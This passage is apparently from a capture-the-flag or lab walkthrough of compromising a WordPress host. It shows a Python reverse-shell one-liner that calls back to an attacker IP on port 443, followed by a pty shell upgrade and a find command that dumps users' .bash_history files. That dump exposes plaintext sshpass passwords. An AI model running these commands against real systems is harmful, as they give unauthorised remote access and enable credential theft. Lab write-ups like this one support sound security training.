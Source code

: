 ```python
python%20-c%20'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.7",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

If done correctly, we should now have an established session between our host PC, and the target.

```console
192.168.1.13: inverse host lookup failed: Unknown host
connect to [192.168.1.7] from (UNKNOWN) [192.168.1.13] 52716
/bin/sh: 0: can't access tty; job control turned off
```

Now the next step is to set up a TTY Shell on the target pc so that we can carry out commands. Again I used Python to spawn a bash shell.

```console
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@red:/var/www/https/blogblog/wp-content/uploads$ 
www-data@red:/var/www/https/blogblog/wp-content/uploads$ cd /
cd /
www-data@red:/$ ls
ls
bin   etc	      lib	  mnt	root  snap  tmp  vmlinuz.old
boot  home	      lost+found  opt	run   srv   usr
dev   initrd.img.old  media	  proc	sbin  sys   var
```

From this point, I created a small Bash script to list the [bash_history](http://www.symkat.com/understanding-bash-history) on the target. This was used to enumerate any commands left behind by the user.

```console
www-data@red:/home$ find -name ".bash_history" -exec cat {} \;
find -name ".bash_history" -exec cat {} \;
free
ps aux
id
cat: ./peter/.bash_history: Permission denied
find: './peter/.cache': Permission denied
exit
id
whoami
ls -lah
pwd
ps aux
sshpass -p thisimypassword ssh JKanode@localhost
apt-get install sshpass
sshpass -p JZQuyIN5 peter@localhost
ps -ef
top
kill -9 3747
whoami
www-data@red:/home$ 
```
